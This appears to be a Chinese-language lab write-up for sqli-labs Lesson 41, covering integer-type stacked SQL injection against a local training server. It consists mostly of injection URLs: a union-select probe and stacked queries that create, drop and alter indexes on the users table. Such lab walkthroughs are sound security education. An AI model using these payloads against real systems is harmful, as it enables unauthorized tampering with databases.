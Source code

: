 ```yaml
---
title: sqli-labs lession-41 GET盲注-整型-堆叠注入
date: 2018-10-21 14:36:09
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-41 GET盲注-整型-堆叠注入

---

## 分析

与Lesson-40只是闭合不同

`http://192.168.75.132/sql/Less-41/?id=-1 union select 1,2,3%23`

![001](/img/sql/Lesson-41/001.png)

## 增

添加索引

`http://192.168.75.132/sql/Less-41/?id=1;CREATE UNIQUE INDEX name ON users(username);%23`

![002](/img/sql/Lesson-41/002.png)

![003](/img/sql/Lesson-41/003.png)

## 删

删除索引。

`http://192.168.75.132/sql/Less-41/?id=1;ALTER TABLE security.users DROP INDEX name;%23`

![004](/img/sql/Lesson-41/004.png)

## 改

将索引修改

``http://192.168.75.132/sql/Less-41/?id=1;ALTER TABLE `security`.`users` DROP INDEX `name`,ADD UNIQUE INDEX `newname`(`id`) USING BTREE;%23``

![005](/img/sql/Lesson-41/005.png)

![006](/img/sql/Lesson-41/006.png)